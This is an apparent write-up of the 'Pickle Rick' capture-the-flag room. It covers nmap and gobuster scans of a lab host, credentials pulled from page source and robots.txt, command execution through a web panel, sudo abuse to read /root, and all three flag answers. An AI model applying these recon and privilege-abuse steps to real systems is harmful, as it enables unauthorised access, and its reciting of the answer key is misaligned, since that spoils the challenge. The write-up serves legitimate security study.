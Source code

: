 ![[Pickle Rick.png]]
# Enumeration
```
nmap -sC -sV -v 10.10.45.121
Discovered open port 22/tcp on 10.10.45.121
Discovered open port 80/tcp on 10.10.45.121
Completed SYN Stealth Scan at 19:53, 1.27s elapsed (1000 total ports)
Initiating Service scan at 19:53
Scanning 2 services on ip-10-10-45-121.eu-west-1.compute.internal (10.10.45.121)
Completed Service scan at 19:53, 6.02s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.45.121.
Initiating NSE at 19:53
Completed NSE at 19:53, 0.27s elapsed
Initiating NSE at 19:53
Completed NSE at 19:53, 0.00s elapsed
Nmap scan report for ip-10-10-45-121.eu-west-1.compute.internal (10.10.45.121)
Host is up (0.00021s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Rick is sup4r cool
MAC Address: 02:E0:E3:9F:80:FF (Unknown)
```
```
gobuster dir -u 10.10.45.121 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.45.121
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2024/08/26 19:56:09 Starting gobuster
===============================================================
/assets (Status: 301)
===============================================================
2024/08/26 19:56:21 Finished
===============================================================
```
In site source code there is a comment
```
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```
Username: R1ckRul3s
We need to find the password, enumerate more. In robotx.txt subdir of site we have `Wubbalubbadubdub` this could be a password
Password: Wubbalubbadubdub

This credentials seems not for ssh, we need to find a login page for this. Based from assets there is portal jpeg. This can be a hint that the login page is named portal, I tried using gobuster but the portal subdirectory is not showing maybe with the seclists i used.

The reason why i cant find the login page is im missing arguments in my command which is **-x** string File extension(s) to search for (dir mode only)
```
gobuster dir -u 10.10.45.121 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -x php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.45.121
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2024/08/26 20:09:25 Starting gobuster
===============================================================
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)
Progress: 50094 / 1273834 (3.93%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2024/08/26 20:09:33 Finished
===============================================================
```
we can now login using the credentials we found.
![[pickril.png]]
![[pickrleks.png]]
Great! we can execute some commands
![[pckerl.png]]
ls command is not working, less commands work. We got the first flag.

Lets see if we can execute some sudo command 
```
sudo -l

Matching Defaults entries for www-data on ip-10-10-45-121:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-45-121:
    (ALL) NOPASSWD: ALL
```
Lets enumerate the directory
```
sudo ls /home
rick
ubuntu

sudo ls /home/rick
second ingredients
sudo less /home/rick/second\ ingredients
1 jerry tear
```
we found the second flag, lets enumerate more.
we found a lot of directories using the command. Root directory is interesting, it has 3rd.txt file
```
sudo ls /*
sudo ls /root
sudo less /root/3rd.txt
```
# What is the first ingredient that Rick needs?  
mr. meeseek hair


# What is the second ingredient in Rick’s potion?  
1 jerry tear


# What is the last and final ingredient?
fleeb juice